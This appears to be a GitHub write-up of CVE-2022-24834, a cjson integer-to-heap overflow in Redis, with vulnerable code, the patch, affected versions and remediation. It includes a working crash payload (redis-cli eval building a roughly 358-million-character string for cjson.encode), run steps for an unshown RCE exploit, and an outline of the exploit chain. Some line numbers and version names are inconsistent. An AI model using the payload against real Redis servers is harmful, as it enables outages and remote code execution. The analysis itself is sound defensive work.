






# CVE-2022-24834 CWE-680&122 Redis buffer overflow

## Vulnerability Background
- **Redis**: A key-value storage system that is a cross-platform non-relational database. An open-source in-memory database that provides a high-performance key-value storage system, commonly used in caching, message queues, session storage, and other application scenarios. Clients communicate with Redis servers via sockets, sending commands, and the server changes its state (i.e., its memory structure) to respond to such commands.
- **cjson:** A library for handling JSON data in Lua, offering efficient JSON encoding and decoding capabilities. The main function of the cjson library is to convert Lua tables into JSON format or parse JSON strings into Lua tables. Due to its high performance, it is widely used in Lua applications that need to process JSON data. cjson is written in C, featuring low memory consumption and faster execution speed.
- **CWE-680 (Integer Overflow to Buffer Overflow: integer overflow causes buffer overflow)**
- **CWE-122 (Heap-based Buffer Overflow)**

## Vulnerability Mechanism
When the Lua scripting engine in Redis uses the cjson library to handle JSON data, string length calculation has integer overflow issues. In `json_append_string` functions, `len` parameters are passed as `size_t` type but later used as `int` types, causing errors when calculating buffer size. This buffer size calculation error causes heap overflow, leading to memory corruption and remote code execution.

## Vulnerability Location
Analyzing the Redis-7.0.11 source code:

1. In the deps/lua/src/strbuf.h file, line **122, in function `strbuf_append_char_unsafe`, the overflow occurs in variable s of type strbuf_t at line **124**.

   ```c
   strbuf.h file, line 122
   static inline void strbuf_append_char_unsafe(strbuf_t *s, const char c)
   {
       ***** 124 rows ***** piles overflow
       s->buf[s->length++] = c;
   }
   ```

2. Deps/lua/src/lua_cjson.c file, line **463**, function ` json_append_string`. Among them, 484 lines call the `strbuf_append_char_unsafe` that triggers heap overflow. `json` is passed to `strbuf_append_char_unsafe` as the first parameter, causing an overflow. Looking further up, the code logic affecting `json` reveals that at line **746**, `strbuf_ensure_empty_length` is called to ensure the length is correct, and the preliminary judgment is that an integer overflow has occurred here.

   ```c
   lua_cjson.c file, line 463
   static void json_append_string(lua_State *l, strbuf_t *json, int lindex)
   {
       const char *escstr;
       int i;
       const char *str;
       ***** 468 lines***** len is size_t
       size_t len;
    
       str = lua_tolstring(l, lindex, &len);
       ***** 746 rows ***** integer overflow ***** ⚠️ vulnerabilities
       strbuf_ensure_empty_length(json, len * 6 + 2);
    
       strbuf_append_char_unsafe(json, '\"');
       for (i = 0; i < len; i++) {
           escstr = char2escape[(unsigned char)str[i]];
           if (escstr)
               strbuf_append_string(json, escstr);
           else
               ***** 484 lines of ***** call triggered the heap overflow
               strbuf_append_char_unsafe(json, str[i]);
       }
       strbuf_append_char_unsafe(json, '\"');
   }
   ```

3. In the deps/lua/src/strbuf.h file, at line 95 of the `strbuf_ensure_empty_length` function, you can see the second parameter `len` should be of type `int`, but in the lua_cjson.c file, line 463, in the ` json_append_string` function, in call 746, The input parameter `len` is of type `size_t`. When the constructed string size is ` (2^31 - 2)/6`, the symbol position 1 of `len` leads to subsequent heap overflow.

   ```cpp
   static inline void strbuf_ensure_empty_length(strbuf_t *s, int len)
   {
       if (len > strbuf_empty_length(s))
           strbuf_resize(s, s->length + len);
   }
   ```

## Remediation

Upgrade to Redis 6.0.20, 6.2.13, 7.0.12, or later. Until upgraded, deny Lua script and function execution to untrusted clients and restrict access to the Redis service; memory limits do not prevent the under-allocation and subsequent overflow.

The patched `lua_cjson.c` consistently uses `size_t` for buffer lengths and adds overflow checks.

```c
src/lua_cjson.c
@@ -473,6 +474,8 @@ static void json_append_string(lua_State *l, strbuf_t *json, int lindex)
  
    ...
 
+   if (len > SIZE_MAX / 6 - 3)
+       abort(); /* Overflow check */
  
    strbuf_ensure_empty_length(json, len * 6 + 2);
  
    strbuf_append_char_unsafe(json, '\"');
```

Change the parameter of the `strbuf_ensure_empty_length` function in the strbuf.h file to `size_t` 

```c\
src/strbuf.h
- static inline void strbuf_ensure_empty_length(strbuf_t *s, int len)
+ static inline void strbuf_ensure_empty_length(strbuf_t *s, size_t len)
```

## Affected Versions

- Redis 6.0.0 through 6.0.19
- Redis 6.2.0 through 6.2.12
- Redis 7.0.0 through 7.0.11

## Environment Setup
Start the Docker environment, Redis version 7.0.11

```txt
CNA:GitHub, Inc.    Base Score:7.0 HIGH    Vector:CVSS:3.1/AV:A/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:L
NIST:NVD    Base Score:8.8 CRITICAL    Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

```txt
cpe:2.3:a:redis:redis:7.0.11:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
### PoC: DoS

1. Run the PoC code, and you will see that the Redis server has closed the connection

   ```bash
   docker exec -it redis-7.0.11 redis-cli eval "local str = string.rep('a',(0x80000000 - 2) / 6); cjson.encode(str)" 0
   ```

   

2. Check the container log; you can see Redis crashing due to segment errors

   ```bash
   docker logs redis-7.4.2 
   ```

   

### EXP: RCE

1. Get the host's IP address as 192.168.233.153

   ```bash
   ifconfig
   ```

   

2. Go to the EXP folder, open the terminal command line, and create the Python virtual environment venv

   ```bash
   python -m venv venv 
   ```

3. Launch the Python virtual environment

   ```bash
   source venv/bin/activate
   ```

4. Install dependencies

   ```bash
   pip install -r requirements.txt
   ```

   

5. Run the EXP file, enter Redis's IP and port, listen IP (your host IP), port, and lua file location. You will see the id command executed successfully

   ```bash
   python CVE-2022-24834-EXP.py
   ```

   

## PoC Analysis

```bash
redis-cli eval "local str = string.rep('a',(0x80000000 - 2) / 6); cjson.encode(str)" 0
```

`string.rep('a', n)` is used to generate a string containing `n` characters `'a'`. Here, `n` is calculated as `(0x80000000 - 2) / 6`. `0x80000000` is a 32-bit unsigned integer, equal to 2,147,483,648. Subtracting 2 gives 2,147,483,646. Dividing by 6 gives a very large number, about 357,913,941. This value is extremely large, causing the Lua script to generate an extremely long string, exceeding the usual memory limit.

 `cjson.encode` Used to encode Lua tables or strings into JSON format. Here, we try to encode the maximal string `str` created above as JSON.

This PoC script triggered a heap overflow vulnerability in the `cjson` library by creating an extremely long string and attempting to encode it as JSON.

## Exploit Analysis
1. **Construct Overflow Data:** Construct a string approximately 341 MiB in length, use `cjson.encode` for encoding, and trigger heap overflow.
2. **Leaking address information:** By constructing a fake Lua table object, the heap memory address is leaked, providing information for subsequent attacks.
3. **Constructing AAR/AAW Primitives:** Using fake table objects to enable reading and writing to arbitrary addresses, laying the foundation for subsequent attacks.
4. **Build a call chain:** Use the leaked address information to build a call chain, ultimately calling `execve` functions to achieve remote code execution.

## References
[NVD - CVE-2022-24834](https://nvd.nist.gov/vuln/detail/CVE-2022-24834)

[Lua cjson and cmsgpack integer overflow issues (CVE-2022-24834) (#12398) · redis/redis@936cfa4](https://github.com/redis/redis/commit/936cfa464f371666c46bff59f7c4247d48973ec6#diff-dd930db7f554182383e7581313c58c5a4fe4ee88dbd9b448f056f070bbb62336)

[CVE-2022-24834/redis_cve-2022-24834.py at master · convisolabs/CVE-2022-24834](https://github.com/convisolabs/CVE-2022-24834/blob/master/redis_cve-2022-24834.py)

[CVE-2022-24834-/exploit.py at main · DukeSec97/CVE-2022-24834-](https://github.com/DukeSec97/CVE-2022-24834-/blob/main/exploit.py)

[[Original] Redis Vulnerability Analysis, Lua Script Section - Binary Vulnerabilities - Kanxue Forum - Security Community | Nonprofit Technical Exchange Community](https://bbs.kanxue.com/thread-286459.htm#msg_header_h1_3)

[Ricerca Security: Fuzzing Farm #4: Hunting and Exploiting 0-day [CVE-2022-24834\]](https://ricercasecurity.blogspot.com/2023/07/fuzzing-farm-4-hunting-and-exploiting-0.html)
